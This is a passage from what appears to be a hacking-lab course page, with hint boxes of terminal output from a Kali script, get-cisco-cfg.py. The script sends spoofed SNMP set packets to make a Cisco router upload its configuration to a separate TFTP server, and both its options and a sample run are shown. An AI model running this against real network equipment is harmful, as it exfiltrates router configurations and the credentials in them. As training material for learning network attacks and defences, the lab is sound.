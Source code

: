 ------------------------------------------------------------------------

{% capture text %}
<pre>
Help for get-cisco-cfg.py.

            root@kali:~/becoming-a-hacker/labs/networking# ./get-cisco-cfg.py -h
            WARNING: No route found for IPv6 destination :: (no default route?)
            Usage: get-cisco-cfg.py [options]

            Options:
              -h, --help            show this help message and exit
              -i IFACE, --iface=IFACE
                                    Interface
              -s SRCIP, --src=SRCIP
                                    Source IP Address
              -d DSTIP, --dst=DSTIP
                                    Destination IP Address
              -t TFTPIP, --tftp=TFTPIP
                                    TFTP Server IP Address
              -f CFG_FILE, --cfg=CFG_FILE
                                    Configuration Filename
              -c SNMPSTRING, --community=SNMPSTRING
                                    SNMP Community Set String

</pre>
{% endcapture %}
{% include hint.html text=text %}

{% capture text %}
<pre>
Running get-cisco-cfg.py

         root@kali:~/becoming-a-hacker/labs/networking# ./get-cisco-cfg.py -i eth1 -s 10.1.1.4 -d 10.1.1.1 -t 10.1.2.2 -f my-config -c 
         WARNING: No route found for IPv6 destination :: (no default route?)
         Attempting to download IOS config from 10.1.1.1
         .
         Sent 1 packets.
         .
         Sent 1 packets.
         .
         Sent 1 packets.
         .
         Sent 1 packets.
         .
         Sent 1 packets.
         .
         Sent 1 packets.
         .
         Sent 1 packets.

	 ------------------------------------------------------------------------
